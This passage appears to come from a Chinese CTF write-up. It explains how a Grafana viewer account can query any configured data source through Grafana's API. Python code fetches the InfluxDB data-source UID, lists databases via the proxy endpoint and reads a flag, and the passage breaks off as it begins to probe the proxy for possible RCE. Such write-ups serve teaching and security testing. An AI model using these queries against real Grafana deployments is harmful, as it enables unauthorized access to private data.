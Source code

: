 噢，说是viewer用户可以直接查询grafana上配的任何数据源。如果想限制这个权限，请花钱上enterprise版，这样就支持data source permission了。

显然这个题没有上enterprise版。那我们看看有什么办法能查询数据源。查[文档](https://grafana.com/docs/grafana/latest/developers/http_api/data_source/#query-a-data-source)发现`/api/ds/query`这样一个API，如果没发现也不要紧，自己开个grafana上去抓个包也能看出来grafana是怎么做查询的。

这样解法就呼之欲出了。首先看看管理员配的InfluxDB数据源是什么ID：

```python
ds_uid = requests.get(
    f'{HOST}/api/datasources',
    auth=('geekgame', 'geekgame'),
).json()[0]['uid']
```

然后就能执行任意influxql。我们先查询都有哪些数据库：

```python
res = requests.post(
    f'{HOST}/api/datasources/proxy/uid/{ds_uid}/query',
    auth=('geekgame', 'geekgame'),
    data={
        'q': 'show databases',
    },
).json()
for v in res['results'][0]['series'][0]['values']:
    if v[0].startswith('secret_'):
        db_name = v[0]
        break
```

再去数据库里查询flag的值：

```python
res = requests.post(
    f'{HOST}/api/datasources/proxy/uid/{ds_uid}/query',
    auth=('geekgame', 'geekgame'),
    cookies=COOKIES,
    data={
        'q': f'select value from {db_name}..flag1',
    },
).json()
flag = res['results'][0]['series'][0]['values'][0][1]
```

即可。

### Flag 2

在Grafana的[文档](https://grafana.com/docs/grafana/latest/developers/http_api/data_source/#query-a-data-source)里，除了`/api/ds/query`以外，还有一个更强大的API：[/api/datasources/proxy/uid/:uid/*](https://grafana.com/docs/grafana/latest/developers/http_api/data_source/#data-source-proxy-calls)，它允许经过Grafana的代理，让我们给InfluxDB发送任意HTTP请求。

先说一下我在出题时候的状态，就是这个代理看起来很牛，应该是个有价值的目标。考虑到[InfluxDB的功能十分丰富](https://docs.influxdata.com/influxdb/v2/api/v2/)，大概能做到一些不得了的事情，比如RCE什么的。让我们把能调用的接口都试一遍：

